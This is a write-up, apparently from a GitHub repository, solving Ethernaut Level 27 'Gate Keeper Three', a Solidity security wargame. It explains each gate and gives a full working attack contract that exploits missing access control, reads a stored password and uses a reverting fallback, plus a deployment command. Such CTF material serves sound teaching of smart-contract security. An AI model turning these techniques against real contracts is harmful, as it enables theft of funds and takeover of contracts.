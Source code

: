 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/27-gate3.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 27 - Gate Keeper Three</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Gate 1](#gate-1)
  - [Gate 2](#gate-2)
  - [Gate 3](#gate-3)
- [Solution](#solution)

## Objectif

<img src="../assets/requirements/27-gate3-requirements.webp" width="800px"/>

## The hack

The `GateKeeperThree`is a really simple level. Nothing complex, just to follow the flow of each modifier. So let's check those modifiers:

### Gate 1

```javascript
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

We just have to call the `construct0r()` function to become the owner of the contract. This is solidity ^0.8, constructors are defined with the `constructor` keyword. On top of that, the function lacks access control. Already seen in previous levels. Same for the `tx.origin != owner` check. So let's move on.

### Gate 2

```javascript
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

To set `allowEntrance` to `true`, we need to call the `getAllowance` function. This function needs a password. And to get the password, we need to read the storage. However, before we can do that, we need to deploy the `SimpleTrick` contract by calling the `createTrick` function. Then we can read its storage at slot `2`:

- With web3:

```javascript
await web3.eth.getStorageAt("0x...your trick address here", 2);
```

- With Foundry:

```bash
bytes32 pwd = vm.load("0x...your trick address here", bytes32(uint256(2)));
```

### Gate 3

```javascript
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
}
```

So the contract needs to have a balance greater than 0.001 ether and must be prevented from being able to send it to our `GateSkipperThree` contract. So we can either add a fallback function that always reverts, or just make sure our contract can't receive funds by omitting the `receive` and fallback functions.

And... that's it.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKeeper {
    function owner() external view returns (address);
    function entrant() external view returns (address);
    function allowEntrance() external view returns (bool);
    function trick() external view returns (address);
    function construct0r() external;
    function getAllowance(uint _password) external;
    function createTrick() external;
    function enter() external;
}

contract GateSkipperThree {
    IKeeper public immutable keeper;
    address public trick;

    constructor(address _keeper) payable {
        keeper = IKeeper(_keeper);
        keeper.createTrick();
        trick = keeper.trick();
    }

    function attack(bytes32 _password) public {
        // Gate 1: Contract become owner, thanks to the lack of access control
        keeper.construct0r();
        require(keeper.owner() == address(this), "Contract isn't owner!");

        // Gate 2: Call getAllowance to get password
        keeper.getAllowance(uint256(_password));
        require(keeper.allowEntrance(), "allowEntrance isn't true!");

        // Gate 3: Deposit to keeper but revert on receive
        (bool success, ) = address(keeper).call{value: 0.0011 ether}("");
        require(success, "Deposit failed!");

        keeper.enter();
        require(keeper.entrant() == msg.sender, "Attack failed!");
    }

    fallback() external {
        require(true == false);
    }
}
```

Then you can run the script with the following command:

```bash
forge script script/28_GateKeeperThree.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
